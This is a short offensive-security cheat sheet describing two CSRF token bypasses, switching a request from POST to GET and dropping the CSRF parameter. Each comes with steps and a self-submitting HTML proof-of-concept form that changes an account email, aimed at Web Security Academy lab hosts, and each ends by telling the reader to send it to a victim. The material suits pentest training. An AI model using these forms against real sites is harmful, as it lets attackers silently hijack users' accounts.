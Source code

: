 #### Bypass Method -1 : Change the request method `POST` → `GET`

```markdown
Test Case: Validation of CSRF token depends on request method

1. Interect with functionality and intercept the request.
2. Send this requets to repeater and right click change request method
3. Remove any csrf param and genrate csrf poc
4. Edit according to your preference,For example:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="GET" action="https://ac591fd21f4ab3d2807a1b1d0007000d.web-security-academy.net:443/email/change-email?email=natsu%40natsu.com">
		<input type="text" name="email" value="natsu@natsu.com">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

5. Done send this to victim.
```

#### Bypass Method - 2: Remove csrf param from `POST` request.

```markdown
Test Case: Validation of CSRF token depends on token being present

1. Interect with functionality and intercept the request.
2. Send this requets to repeater.
3. Remove any csrf param and generate csrf poc
4. Edit according to your preference,For example:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac8a1fbd1e6d76ae806817f900d50032.web-security-academy.net:443/email/change-email">
		<input type="text" name="email" value="natsu@natsu.com">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

5. Done send this to victim.
```
